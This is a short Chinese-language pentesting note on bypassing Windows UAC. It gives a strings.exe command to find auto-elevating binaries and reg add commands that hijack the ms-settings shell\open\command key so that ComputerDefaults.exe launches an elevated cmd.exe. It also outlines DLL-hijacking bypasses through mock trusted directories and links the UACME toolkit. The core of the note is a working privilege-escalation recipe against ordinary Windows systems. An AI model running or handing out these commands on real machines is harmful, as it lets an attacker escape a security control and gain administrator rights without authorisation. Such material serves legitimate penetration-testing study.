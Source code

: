 # Bypass UAC

#### 原理

UAC为Windows一种控制机制，可以阻止自动安装未授权的软件，UAC限制所有用户包括RID 500的管理员用户，Bypass UAC算是绕过了一种保护机制，并不能看作一种真正的提权

#### Bypass UAC白名单

白名单程序特性：Manifest数据中autoElevate属性为True

利用微软strings.exe工具(https://learn.microsoft.com/zh-cn/sysinternals/downloads/strings)枚举autoElevate属性的程序

```
strings.exe /accepteula -s C:\Windows\System32\*.exe | findstr /i "autoElevate"
```

以ComputerDefaults.exe为例

```
C:\Windows\System32\ComputerDefaults.exe:         <autoElevate>true</autoElevate>
```

运行一下ComputerDefaults.exe并使用Pocess Monitor监控ComputerDefaults.exe进程，定位到HKCU\Software\Classes\ms-settings\Shell\Open\command\DelegateExecute

通常情况下，shell\open\command命令的注册表中存储的可能是可执行文件的路径，通常情况下UAC白名单中的程序运行时默认提升了权限，通过修改注册表将恶意载荷分别写入默认与DelegateExecute键值

```
reg add "HKCU\Software\Classes\ms-settings\Shell\Open\command" /d "C:\Windows\System32\cmd.exe" /f
reg add "HKCU\Software\Classes\ms-settings\Shell\Open\command" /v DelegateExecute /t REG_SZ /d "C:\Windows\System32\cmd.exe" /f
```

再次执行即可Bypass UAC启动CMD

#### Bypass UAC(DLL)

**DLL劫持原理：**

如果没有指定DLL的绝对路径，那么程序会以特定的顺序依次在指定路径下搜索待加载的DLL，顺序为：C:\windows\system32->C:\windows\system->c:\windwos

**模拟可信任目录**

测试人员根据可信任目录来创建一个包含尾随空格的模拟可信任目录，将一个白名单程序复制到可信任目录中，配合DLL劫持等技术即可绕过UAC。

**WinSAT.exe DLL劫持**

{% file src="../../.gitbook/assets/自动化通用DLL劫持(1).pdf" %}

#### UACME

{% embed url="https://github.com/hfiref0x/UACME" %}

集成了70多种Bypass UAC方法
